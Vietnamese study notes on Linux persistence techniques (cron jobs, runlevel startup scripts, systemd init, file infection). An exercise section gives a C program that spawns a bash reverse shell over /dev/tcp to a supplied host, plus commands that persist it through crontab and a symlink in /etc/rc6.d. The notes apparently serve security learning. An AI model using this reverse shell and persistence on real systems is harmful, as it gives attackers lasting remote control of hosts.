 # Các kỹ thuật persistence

## Cron Jobs

- Cron Jobs là một ứng dụng để lập lịch chạy ứng dụng của Linux.

- Malware sử dụng Cron Jobs để lập lịch chạy, duy trì sự tồn tại trên hệ thống.

## Subsystems Initialization

- Startup Script là các script được chạy cùng với sự khởi động của hệ thống. Ví dụ: etc/rc.local/, /etc/init.d/

- Các script trong /etc/rc*.d/ được sử dụng để khởi động và dừng các dịch vụ hệ thống ở các runlevel khác nhau. Các level chạy của hệ thống:

  - Runlevel0: hệ thống tắt.
 
  - Runlevel1: chế độ đơn người dùng. Chỉ có hệ thống cơ bản và các dịch vụ tối thiểu được khởi động. Không có mạng, và thường chỉ có người dùng root có thể đăng nhập.
 
  - Runlevel2: chế độ đa người dùng mà không có mạng. Đa số các dịch vụ cơ bản và môi trường làm việc nhiều người dùng được khởi động, nhưng các dịch vụ mạng không được kích hoạt.
 
  - Runlevel3: chế độ đa người dùng có mạng. Tất cả các dịch vụ cơ bản và mạng đều được khởi động, nhưng không có môi trường desktop đồ họa.
 
  - Runlevel4: chưa được sử dụng hoặc dành cho mục đích đặc biệt. Người dùng có thể tùy chỉnh runlevel này để đáp ứng các nhu cầu cụ thể.
 
  - Runlevel5: chế độ đa người dùng với môi trường đồ họa. Tất cả các dịch vụ và mạng đều được khởi động, bao gồm cả môi trường desktop đồ họa.
 
  - Runlevel6: hệ thống khởi động lại.
 
- Init scripts là các script được chạy bởi tiến trình init(systemd) khi hệ thống khởi động. Ví dụ: /etc/systemd/system/ 

## File Infection and Replacement

- File Infection:

  - Appended Infection: Mã độc được thêm vào cuối một tệp hợp lệ.
 
  - Prepended Infection: Mã độc được thêm vào đầu một tệp hợp lệ.
 
  - Cavity Infection: Mã độc được thêm vào giữa một tệp hợp lệ.

- File Replacement: Mã độc thay thế một tệp hợp lệ thành một tệp độc hại cùng tên.

# Bài tập

## Malware:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char *argv[])
{
    const char *ip = argv[1];
    int port = atoi(argv[2]);
    char commad[MAX_BUFFER_SIZE];
    sprintf(commad, "bash -c \"/bin/bash -i >& /dev/tcp/%s/%d 0>&1\"", ip, port);
    system(commad);
    return 0;
}
```

## Bài 1:

```
crontab -e
*/5 * * * * /path/to/malware 127.0.0.1 1234
```

## Bài 2:

```
ln -s /path/to/malware /etc/rc6.d/malware
```
